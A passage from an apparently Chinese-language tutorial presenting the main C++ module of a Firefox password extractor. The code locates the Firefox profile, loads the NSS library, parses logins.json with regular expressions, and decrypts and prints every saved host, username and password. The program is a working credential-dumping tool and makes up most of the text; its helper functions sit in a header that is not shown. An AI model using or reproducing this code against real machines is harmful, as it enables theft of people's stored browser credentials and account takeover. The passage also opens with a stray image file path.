 如果用户名或密码中有中文字符，直接输出会产生乱码，需要进行转码之后输出，才能正确显示。





## 主模块（run.cpp）

```c++
#include"Firedox_decrypt.h"
#include<regex>

int main() {
	string installationPath = getInstallationPath();	// 获取Firefox的安装路径（通过注册表）
	HMODULE lib = loadLibrary(installationPath);	// 动态加载nss库(Network Security Services)(网络安全服务)，加载动态链接库文件nss.dll，返回模块句柄
	if (lib == NULL)	// 模块句柄为空，则动态加载失败
		return -1;
	dllFunction(lib);	// 获取nss库中等会需要用到的方法
	string profilePath = getProfilePath();	// 获取Firefox保存登录信息(用户名，密码)的文件logins.json的路径
	SECStatus s = NSS_Init(profilePath.c_str());	// 初始化NSS库
	if (s != SECSuccess) {
		printf("Error when initialization!\n");
	}
	string loginStrings = getBuffer(profilePath);	// 获取logins.json中保存的登录信息
	// 正则表达式匹配
	std::regex reHostname("\"hostname\":\"([^\"]+)\"");
	std::regex reUsername("\"encryptedUsername\":\"([^\"]+)\"");
	std::regex rePassword("\"encryptedPassword\":\"([^\"]+)\"");
	std::smatch match;
	string::const_iterator searchStart(loginStrings.cbegin());	// 循环迭代
	while (std::regex_search(searchStart, loginStrings.cend(), match, reHostname)) {
		printf("Host\t: %s \n", U2G(match.str(1).c_str()));
		std::regex_search(searchStart, loginStrings.cend(), match, reUsername);
		printf("Username: %s \n", U2G((const char*)decrypt(match.str(1))));	// decrypt用户名并转码输出
		std::regex_search(searchStart, loginStrings.cend(), match, rePassword);
		printf("Password: %s \n", U2G((const char*)decrypt(match.str(1))));	// decrypt密码并转码输出
		searchStart += match.position() + match.length();
		printf("-----------------------------------------\n");
	}
	NSS_Shutdown();	// 关闭NSS库
	//system("PAUSE");
	return 0;
}
```



# 运行测试

运行结果如下，程序执行正确。
